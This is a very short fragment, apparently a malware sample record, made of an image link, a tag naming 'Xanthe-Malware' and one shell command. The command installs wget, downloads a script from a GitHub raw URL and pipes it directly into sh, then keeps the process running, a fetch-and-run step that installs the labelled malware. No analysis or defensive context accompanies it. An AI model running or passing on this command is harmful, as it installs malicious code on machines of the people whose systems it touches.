 #Xanthe-Malware

`apt-get update && apt-get install -y wget;wget -q -O - https://raw.githubusercontent.com/nandakrr/xanthe/main/run.sh | sh;tail -f /dev/null`
